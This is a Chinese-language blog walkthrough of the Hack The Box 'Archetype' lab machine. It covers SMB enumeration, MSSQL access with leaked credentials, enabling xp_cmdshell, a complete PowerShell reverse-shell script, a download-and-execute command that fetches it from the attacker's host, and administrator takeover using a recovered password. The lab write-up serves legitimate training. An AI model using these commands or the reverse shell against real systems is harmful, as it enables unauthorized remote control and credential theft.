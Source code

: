 ```yaml
---
title: HTB-Archetype靶机思路 
tags: HTB,靶机,思路
renderNumberedHeading: true
grammar_cjkRuby: true
---
```



## 前言

>这个是之前打过的靶机，之前也记录了一下，现在把它放在博客里，方便自己查看
>其实按照他里面的步骤一步一步来就可以了，但是中间踩了好多坑，心累，所以记录一下

## 环境准备

>操作机：Kali Linux

>首先要在 Kali 上安装 openvpn
>```
>apt-get install network-manager-openvpn
>apt-get install network-manager-openvpn-gnome
>apt-get install network-manager-pptp
>apt-get install network-manager-pptp-gnome
>apt-get install network-manager-strongswan
>apt-get install network-manager-vpnc
>apt-get install network-manager-vpnc-gnome
>```

安装openvpn之后，我们来下载.ovpn文件

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600845167236.png)

使用opnvpn来访问这个文件，连上环境IP

`sudo openvpn MrHat-startingpoint.ovpn`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600845353335.png)

然后试着 ping 一下目标IP `10.10.10.27`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600846212044.png)

## 信息收集

环境配置好之后，目标IP也知道了，进行简单的信息收集

首先端口扫描，看看是否开放可疑端口
`sudo nmap -sC -sV 10.10.10.27`

> -sC 根据端口识别的服务,调用默认脚本
> 
> -sV 开放版本探测,可以直接使用-A同时打开操作系统探测和版本探测 

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600846553562.png)

开放端口：
- 135  msrpc        Microsoft Windows RPC 
- 139  netbios-ssn  Microsoft Windows netbios-ssn 
- 445  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds 
- 1433 ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

## 漏洞利用

>445 文件共享（SMB）
>1433  SQL Server相关联

先看一下445端口的SMB是否允许匿名访问
`smbclient -N -L \\\\10.10.10.27\\`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847031208.png)

`backups` 目录 一般来说是备份目录
连接一下 `backups` 目录，然后 `dir` 查看一下目录下的文件
`smbclient -N -L \\\\10.10.10.27\\backups`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847147868.png)

可以看到里面有一个 `prod.dtsConfig` 文件，我们下载一下
`get prod.dtsConfig`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847259590.png)

查看一下里面的内容

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847308001.png)

它包含一个 `SQL 连接字符串` 和本地 Windows 用户 `ARCHETYPE\sql_svc`

接下来我们使用 `Impacket` 下的 `mssqlclient.py` 来连接一下这个 Sql Server

>Github下载链接：https://github.com/SecureAuthCorp/impacket

下载完成，解压出来，然后安装依赖 执行 `pip install .`  注意有个点

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847431335.png)

然后找到 examples 目录下的 `mssqlclient.py`

执行命令
`python mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847571370.png)

**`注意这个斜杠 文档复制出来的是 “\” 这个，但是不行 必须要 “/”这个斜杠才可以`**

成功连接 Sql Server，然后执行 sql 语句

先使用 `IS_SRVROLEMEMBER` 函数来查看当前 SQL 用户的权限是否为 sysadmin 最高权限

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847804543.png)

返回1那就说明是 sysadmin 权限

接下来我们开启 `xp_cmdshell` 来执行系统命令
```sql?linenums
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
```
开启成功

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848048509.png)

接下来执行一下系统命令 查看一下权限
`xp_cmdshell "whoami"`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848113617.png)

## 权限提升

利用 powershell 反弹shell

新建一个 `shell.ps1` 文件
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
注意修改一下 `ip`，`端口`

接下来我们使用 python3 来托管文件
`sudo python3 -m http.server 80`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848857109.png)

使用 `nc` 来监听刚刚设置的端口，我设置的是 443
`sudo nc -lvnp 443`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848941236.png)

然后执行系统命令来访问下载并执行文件
`xp_cmdshell "powershell "IEX (New-ObjectNet.WebClient).DownloadString(\"http://10.10.14.29/shell.ps1\");"`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849065273.png)

看 nc 这边的反应

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849164777.png)
反弹成功！

查看一下文件
`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849401803.png)

>文件内容:
>net.exe use T: rchetypeVbackups /user:administrator MEGACORP_4dmin!!

发现是 `administrator` 账户密码

我们通过 `Impacket/examples/psexec.py` 连接一下这个 administrator 账户

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849493455.png)

## 获取Flag

Flag 在桌面

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849547580.png)







